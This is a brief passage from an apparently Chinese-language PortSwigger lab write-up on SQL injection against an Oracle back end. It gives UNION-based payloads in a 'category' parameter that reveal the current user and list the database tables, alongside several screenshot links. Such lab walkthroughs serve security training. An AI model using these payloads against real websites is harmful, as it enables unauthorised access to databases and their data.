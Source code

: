 ![image-20250711185051793](portswigger.assets/image-20250711185051793.png)

其中还能查看自己的用户是peter：**category=Lifestyle' union select '1',user from dual--**

再爆表：**category=Lifestyle' union select '1',table_name from user_tables--**

![image-20250711185608855](portswigger.assets/image-20250711185608855.png)
